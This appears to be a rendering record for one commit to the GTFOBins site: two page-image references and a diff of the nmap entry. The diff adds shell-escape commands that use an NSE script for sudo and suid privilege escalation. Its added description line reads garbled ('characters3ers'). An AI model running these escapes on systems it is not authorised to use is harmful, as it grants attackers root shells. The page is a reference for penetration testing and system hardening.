

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add suid, description and YAML fixes to nmap

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -1,9 +1,18 @@
 ---
 functions:
   execute-non-interactive:
-    - code: echo "os.execute('/bin/sh')" > /tmp/script.nse
-            nmap --script=/tmp/script.nse
+    - description: Echoing of input characters3ers is disabled.
+      code: |
+        echo 'os.execute("/bin/sh")' > /tmp/script.nse
+        nmap --script=/tmp/script.nse
   sudo-enabled:
-    - code: echo "os.execute('/bin/sh')" > /tmp/script.nse
-            sudo nmap --script=/tmp/script.nse
+    - description: Echoing of input characters3ers is disabled.
+      code: |
+        echo 'os.execute("/bin/sh")' > /tmp/script.nse
+        sudo nmap --script=/tmp/script.nse
+  suid-enabled:
+    - description: Echoing of input characters3ers is disabled.
+      code: |
+        echo 'os.execute("/bin/sh -p")' > /tmp/script.nse
+        ./nmap --script=/tmp/script.nse
 ---
```
